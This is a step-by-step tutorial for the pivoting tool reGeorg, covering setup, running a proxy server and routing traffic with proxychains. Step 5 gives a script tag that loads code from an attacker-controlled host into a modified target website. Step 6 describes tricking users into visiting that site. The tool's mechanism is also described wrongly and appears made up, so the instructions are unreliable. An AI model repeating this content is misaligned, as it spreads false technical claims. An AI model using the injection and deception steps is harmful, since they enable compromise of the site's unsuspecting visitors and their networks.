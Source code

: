 # reGeorg - A web socks proxy tool

reGeorg is a powerful tool that facilitates proxy pivoting, enabling an ethical hacker to establish a connection from a compromised user's browser to the attacker's machine. This connection serves as a channel to bypass network restrictions and gain access to internal resources. It leverages techniques such as tunneling HTTP traffic over a WebSocket connection to achieve its objectives.

Below is a step by step tutorial on how to use the tool:
## Step 1: Set up your environment

Ensure you have a target system or network that you have permission to test.
Prepare a machine for launching the attack and installing reGeorg. This machine will act as your attacker machine.

## Step 2: Download and install reGeorg

Visit the GitHub repository of reGeorg (https://github.com/sensepost/reGeorg) and download the latest version of the tool.
Extract the downloaded file to a directory on your attacker machine.

## Step 3: Configure your attacker machine

Make sure your attacker machine has the necessary dependencies installed, such as Python and PHP.
Set up a web server on your attacker machine. For example, you can use Apache or Nginx.
Move the reGeorg script to the web server's document root.

## Step 4: Launch the reGeorg server

Open a terminal or command prompt on your attacker machine.
Navigate to the directory where you extracted reGeorg.
Start the reGeorg server by running the following command:

```
python reGeorgSocksProxy.py -p <port_number>
```
Replace <port_number> with the port on which you want the server to listen. The default port is 8080.

## Step 5: Prepare the payload

    Identify the target website or application you want to attack.
    Modify the source code of the target website or application to include a reference to the reGeorg script. For example, you can add the following line of code within a <script> tag:

```
<script src="http://<attacker_ip>:<port_number>/georg.js"></script>
```

Replace <attacker_ip> with the IP address of your attacker machine and <port_number> with the port number you specified in the previous step.

## Step 6: Trigger the payload

Host the modified target website or application on a server or test environment.
Trick the target user or perform a penetration test by getting the user to visit the modified target website or application.
When the user's browser loads the website or application, the reGeorg script will be fetched and executed, establishing a connection to your reGeorg server.

## Step 7: Exploit the pivoting capabilities

Once the user's browser establishes a connection with your reGeorg server, you can use it to perform various network pivoting activities.
For example, you can use tools like proxychains or socksify to route traffic through the reGeorg proxy, gaining access to internal systems or resources.

**Remember to exercise caution and always follow legal and ethical guidelines when using such tools.**